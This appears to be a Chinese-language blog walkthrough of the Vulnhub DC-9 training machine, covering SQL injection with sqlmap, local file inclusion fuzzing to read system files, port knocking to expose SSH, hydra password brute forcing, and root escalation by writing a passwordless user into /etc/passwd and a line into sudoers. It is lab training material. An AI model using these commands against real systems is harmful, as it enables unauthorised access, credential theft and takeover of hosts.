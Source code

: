 ```yaml
---
title: DC-9
tags:
  - Vulnhub
  - DC-9
categories: 
  - 渗透靶机训练
description: SQL injection and knockd.
excerpt: SQL injection and knockd.
typora-root-url: DC-9
abbrlink: 26168
date: 2021-04-03 15:07:03
---
```


# DC-9

## 基础信息收集

NMAP Result：

![image-20210403150827994](image-20210403150827994.png)

Nikto Result：

![image-20210403150852433](image-20210403150852433.png)

看到只开发了HTTP的80端口，访问。

![image-20210403150927773](image-20210403150927773.png)

Search引起了我的注意：

![image-20210403150954257](image-20210403150954257.png)

果断抓包送Burp测试看看，请求如图：

![image-20210403151046270](image-20210403151046270.png)

加个引号测试一下注入，无果，直接试试**\' or \'1\'=\'1**，爆出了所有用户：

![image-20210403151144644](image-20210403151144644.png)

确定存在sql注入。

## SQL注入

跑sqlmap：

```bash
sqlmap -u http://192.168.145.142/results.php --data "search="
```

![image-20210403151419621](image-20210403151419621.png)

爆数据库：

```bash
sqlmap -u http://192.168.145.142/results.php --data "search=" --dbs
```

![image-20210403151456090](image-20210403151456090.png)

爆users库：

```bash
sqlmap -u http://192.168.145.142/results.php --data "search=" -D users --dump
```



![image-20210403151516944](image-20210403151516944.png)

爆Staff库的表：

```bash
sqlmap -u http://192.168.145.142/results.php --data "search=" -D Staff --tables
```

![image-20210403151712378](image-20210403151712378.png)

爆Users表：

![image-20210403151759281](image-20210403151759281.png)

没crack出密码出来，一会去网站看看。

爆StaffDetails表：

```bash
sqlmap -u http://192.168.145.142/results.php --data "search=" -D Staff -T StaffDetails --dump
```

![image-20210403151858193](image-20210403151858193.png)

没啥有用信息。

## 爆admin密码

![image-20210403151952051](image-20210403151952051.png)

emmm，CMD5要付费，23333，我做个题还要交钱吗，永不为奴！

推荐个网站：https://hashes.com/en/decrypt/hash

拿到密码：

![image-20210403152059401](image-20210403152059401.png)

## LFI

登录网站发现底部：

![image-20210403152149942](image-20210403152149942.png)

象征性测试一下：

![image-20210403152215835](image-20210403152215835.png)

emmm，难不成是相对路径，再测试一波：

![image-20210403152257523](image-20210403152257523.png)

相对路径伪协议好像就无法搞了，FUZZ走一波看看敏感配置文件好了：

```bash
wfuzz -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.145.142/manage.php?file=../../../../FUZZ -b PHPSESSID=q56ip7f0nf6cnrrtqhg1rpi5k3 --hh 1341
```

![image-20210403152630048](image-20210403152630048.png)

读一下：

![image-20210403152831053](image-20210403152831053.png)

过滤地看一下：

![image-20210403152916006](image-20210403152916006.png)

配置了OpenSSH，但是nmap没有扫描到。

## Knockd

说明被藏起来了，扫一下knockd的配置文件：

![image-20210403153009792](image-20210403153009792.png)

确实是被隐藏起来了，敲门顺序是7469，8475，9842

nmap敲门并扫描看看：

```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.145.142; done
nmap -p22 192.168.145.142
```

![image-20210403153209783](image-20210403153209783.png)

## SSH

利用之前爆出的账号和密码，hydra爆破：

```bash
hydra -L user -P pwd ssh://192.168.145.142 > ssh_services
```

![image-20210403153315276](image-20210403153315276.png)

挨个登录找找有用信息，最后在用户janitor用户的目录下找到了一些密码：

![image-20210403153416639](image-20210403153416639.png)

利用该密码再爆破一次：

```bash
hydra -L user -P newpwd ssh://192.168.145.142 >> ssh_services
```

![image-20210403153516271](image-20210403153516271.png)

发现一个新用户，提权有望！

> 此前已经判断过开始三个用户的提权可能性

## 提权

登录查看sudo：

![image-20210403153624455](image-20210403153624455.png)

发现这个程序：

![image-20210403153649674](image-20210403153649674.png)

应该是一个Python的脚本，找找在哪儿：

![image-20210403153723887](image-20210403153723887.png)

看一下内容：

![image-20210403153746031](image-20210403153746031.png)

追加内容，害，还是老套路提权。

在**\/etc\/passwd**加一个用户就好了。

```bash
echo "escape::0:0:::/bin/bash" > /tmp/escape
sudo ./test /tmp/escape /etc/passwd
```

![image-20210403154116710](image-20210403154116710.png)

添加成功，正当我想切换到用户escape的时候：

![image-20210403154148034](image-20210403154148034.png)

。。。Google了大半天不知道啥问题，算了直接加Sudoers权限吧。。。

```bash
echo "fredf    ALL=(ALL:ALL) ALL" > /tmp/escape2
sudo ./test /tmp/escape2 /etc/sudoers
```

![image-20210403154732372](image-20210403154732372.png)

> 后续测试中，似乎只有使用useradd添加的用户才能切换，不知道是什么情况